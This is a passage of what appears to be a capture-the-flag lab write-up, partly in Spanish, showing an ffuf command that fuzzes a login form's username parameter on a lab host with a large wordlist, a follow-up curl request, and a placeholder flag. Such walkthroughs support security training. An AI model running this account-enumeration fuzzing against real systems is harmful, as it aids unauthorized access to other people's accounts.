 #### Parámetros identificados:
- username
- password

---

### Parameter Fuzzing for Flag

#### Comando
```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:33469/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781
```
```bash
curl http://faculty.academy.htb:33469/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'
```

#### Contenido de la flag:
```
HTB{example_flag_content}
